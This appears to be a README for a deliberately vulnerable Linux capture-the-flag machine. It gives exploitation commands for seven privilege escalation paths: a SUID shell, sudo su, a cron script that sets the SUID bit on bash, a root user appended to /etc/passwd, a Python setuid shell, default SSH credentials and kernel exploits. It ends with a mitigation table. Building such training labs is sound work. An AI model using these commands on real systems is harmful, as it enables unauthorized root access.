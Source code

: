 # Linux Privilege Escalation CTF Machine

![CTF Level](https://img.shields.io/badge/Level-Medium-orange)
![Platform](https://img.shields.io/badge/Platform-Linux-lightgrey)
![Category](https://img.shields.io/badge/Category-PrivEsc-blue)

A deliberately vulnerable Linux machine with multiple privilege escalation vectors. Perfect for practicing penetration testing skills in a controlled environment.

## Table of Contents
1. [Machine Overview](#machine-overview)
2. [Privilege Escalation Methods](#privilege-escalation-methods)
   - [1. SUID Binary](#1-suid-binary)
   - [2. Sudo Misconfiguration](#2-sudo-misconfiguration)
   - [3. Cron Job](#3-cron-job)
   - [4. Writable /etc/passwd](#4-writable-etcpasswd)
   - [5. Capabilities](#5-capabilities)
   - [6. SSH Backdoor](#6-ssh-backdoor)
   - [7. Kernel Exploits](#7-kernel-exploits)
3. [Setup Instructions](#setup-instructions)
4. [Exploitation Walkthrough](#exploitation-walkthrough)
5. [Mitigation Guide](#mitigation-guide)

## Machine Overview

**Difficulty**: Medium  
**Learning Objectives**:
- Identify multiple privilege escalation vectors
- Practice Linux system enumeration
- Understand security misconfigurations
- Learn proper mitigation techniques

**Default Credentials**:
- User: `hacker`
- Password: `Password123!`

## Privilege Escalation Methods

### 1. SUID Binary
**Location**: `/usr/bin/suid-sh`  
**Vulnerability**: Custom SUID binary that executes bash with root privileges  
**Exploitation**:
```bash
/usr/bin/suid-sh
```
Why it works: The binary has the SUID bit set and is owned by root.

### 2. Sudo Misconfiguration

Location: /etc/sudoers
Vulnerability: All users can run any command as root without a password

#### Exploitation:
```bash
sudo su
```
Why it works: The NOPASSWD: ALL directive in sudoers file.

### 3. Cron Job

Location: /etc/cron.d/backdoor
Vulnerability: World-writable script executed by root every minute

#### Exploitation:
```Bash
echo 'chmod 4755 /bin/bash' > /opt/backdoor.sh
# Wait 1 minute
/bin/bash -p
```
Why it works: Cron runs as root and executes our malicious script.

### 4. Writable /etc/passwd

Location: /etc/passwd
Vulnerability: World-writable system file

#### Exploitation:
```Bash
openssl passwd -1 -salt abc Password123
echo 'root2:$1$abc$TKhNXK5ZJBXvJ9XqFn1nq.:0:0:root:/root:/bin/bash' >> /etc/passwd
su root2
```
Why it works: We can add a new root user.

### 5. Capabilities

Location: Python binary
Vulnerability: cap_setuid capability set

#### Exploitation:
```python
import os
os.setuid(0)
os.system("/bin/bash")
```
Why it works: Python can elevate privileges due to its capabilities.

### 6. SSH Backdoor

Location: SSH service
Vulnerability: Pre-configured backdoor account
#### Exploitation:
```Bash
ssh hacker@<IP>
```
Why it works: Weak credentials and allowed SSH access.
### 7. Kernel Exploits

Location: /tmp/dirtypipe and /tmp/dirtycow
Vulnerability: Unpatched kernel vulnerabilities

#### Exploitation:
```Bash
# If kernel is vulnerable:
/tmp/dirtypipe
# or
/tmp/dirtycow
```
Why it works: Kernel vulnerabilities allow privilege escalation.
#### Setup Instructions
#### Using Vagrant
```bash
vagrant up
vagrant ssh
```
#### Exploitation Walkthrough

    Initial Access:
    ```Bash
    ssh hacker@<IP>  # Password: Password123!
    ```
### Enumeration:
```Bash
find / -perm -4000 2>/dev/null      # Check SUID binaries
sudo -l                             # Check sudo permissions
cat /etc/crontab                    # Check cron jobs
ls -la /etc/passwd                  # Check file permissions
getcap -r / 2>/dev/null             # Check capabilities
uname -a                            # Check kernel version
```
### Choose an Exploit Method from the list above.

#### Mitigation Guide
~~~
Vulnerability	         | Secure Configuration
SUID Binary	            | chmod u-s /usr/bin/suid-sh
Sudo Misconfig	         | Remove NOPASSWD: ALL from /etc/sudoers
Cron Job	               | chmod 700 /opt/backdoor.sh
/etc/passwd	          | chmod 644 /etc/passwd
Capabilities	         | setcap -r $(which python3)
SSH Backdoor	         | userdel -r hacker
Kernel	Update system: | apt update && apt upgrade
~~~
### Recommended Linux Versions
```
Distribution	Version	Kernel	Why Recommended
Ubuntu	16.04 LTS (Xenial)	4.4.x	Perfect for DirtyCow (CVE-2016-5195) and older vulnerabilities
Ubuntu	18.04 LTS (Bionic)	5.4.x	Good balance for SUID/sudo exploits and some kernel vulns
Debian	10 (Buster)	4.19.x	Stable with writable /etc/passwd and cron issues
Fedora	33	5.10.x	Ideal for DirtyPipe (CVE-2022-0847)
```

